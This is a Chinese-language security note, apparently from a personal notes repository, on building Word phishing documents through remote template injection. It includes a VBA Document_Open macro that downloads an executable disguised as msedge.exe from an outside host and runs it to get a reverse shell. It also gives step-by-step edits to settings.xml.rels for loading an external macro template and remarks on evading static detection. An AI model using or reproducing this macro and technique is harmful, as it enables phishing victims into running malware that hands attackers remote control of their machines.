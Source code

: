 # Office关系模板注入

> [干货 | Office文档钓鱼的实战和免杀技巧-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1917641)
>
> [wps和office宏钓鱼从认识到免杀 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/317116.html)

利用Word文档加载附加模板时的缺陷所发起的恶意请求，而达到的攻击目的，当目标用户点开攻击者发送的恶意Word文档就可以通过向远程服务器发送恶意请求的方式，然后加载模板执行恶意模板的宏。

发送的文档本身不带恶意代码，所以能过很多静态检测。只需要在远程DOTM文档中编写宏病毒或者木马即可。

制作一个宏钓鱼的文档挂载到 HTTP 服务器上, 例如前面的 VBA 宏调 Powershell 下载与执行文件达成反弹shell

```vb
Private Sub Document_Open()

Call Shell(Environ$("COMSPEC") & " /c powershell.exe curl http://100.1.1.131:8000/download/msedge.exe -o msedge.exe && msedge.exe", vbNormalFocus)

End Sub

```

选定目标 word 文档后将其后缀名改成 `.zip` 并解压

![image-20240611053738672](http://cdn.ayusummer233.top/DailyNotes/202406110609857.png)

整体目录结构如下:

![image-20240611053804070](http://cdn.ayusummer233.top/DailyNotes/202406110609303.png)

制作关系模板注入文档主要需要修改两个文件

- `\word\_rels\settings.xml.rels`

  一般 `word/_rels` 文档里可能只有 `document.xml.rels` 没有  `settings.xml.rels`, 此时需要新建一个 `settings.xml.rels` 文档

  ![image-20240611054035175](http://cdn.ayusummer233.top/DailyNotes/202406110609832.png)

  几个关键点

  - `Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"`

    最后一定要是 `attachedTemplate` 定义关系模板

  - `TargetMode` 要是 `External` 外部模板定义

- `\word\settings.xml`

  在 `w:settings` 属性中定义外部模板

  ![image-20240611054105685](http://cdn.ayusummer233.top/DailyNotes/202406110609115.png)

将目录重新打包成 zip 并重命名为 docx 文档

![image-20240611055158981](http://cdn.ayusummer233.top/DailyNotes/202406110609548.png)

打开该文档便会下载外部模板文档并执行宏代码达成反弹shell:

![image-20240611060918908](http://cdn.ayusummer233.top/DailyNotes/202406110609052.png)

![image-20240611060910931](http://cdn.ayusummer233.top/DailyNotes/202406110609182.png)

---

火绒与卡巴可检出:

![image-20240611060428157](http://cdn.ayusummer233.top/DailyNotes/202406110604551.png)

![image-20240611060545677](http://cdn.ayusummer233.top/DailyNotes/202406110605684.png)

![image-20240611060658265](http://cdn.ayusummer233.top/DailyNotes/202406110609640.png)
